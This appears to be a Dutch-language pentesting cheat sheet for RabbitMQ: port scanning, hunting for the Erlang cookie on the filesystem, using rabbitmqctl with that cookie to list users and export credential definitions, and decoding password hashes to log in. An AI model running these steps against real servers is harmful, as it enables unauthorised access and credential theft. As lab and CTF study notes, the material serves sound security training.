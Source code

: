 ## RabbitMQ

### Overzicht

RabbitMQ is een berichten broker die gebruikt kan worden op verschillende servers.

#### NMAP onderzoek / indicatie

```
nuclei -u <domain>
[erlang-daemon] [tcp] [low] storage.cloudsite.thm:4369 ["name rabbit at port 25672"]
```

- indicatie van rabbitmq

```
nmap -p 4369,5672,15672,25672 <domain>
```

#### Interactie met de Rabbitmq server

- Heeft een http server via rabbitmq:
    - Ja?
        - https://hackviser.com/tactics/pentesting/services/rabbitmq
    - Nee?
        - Zoeken naar een mogelijke cookie die bij erlang past in mappen:
        `/var/lib/rabbitmq`
        `find / -name 'cookie.*'`
            - Gevonden?
                - Op attackermachine:
                `sudo apt install -y rabbitmq-server`
                `sudo rabbitmqctl --erlang-cookie '<cookie>' --node rabbit@<domain> list_users`
                `sudo rabbitmqctl --erlang-cookie '<cookie>' --node rabbit@<domain> export_definitions /tmp/creds.json`
                - Wachtwoord gevonden?:
                `echo -n '<wachtwoord_hash>' | base64 -d | xxd -p -c 100`
                - gebruiken om in te loggen.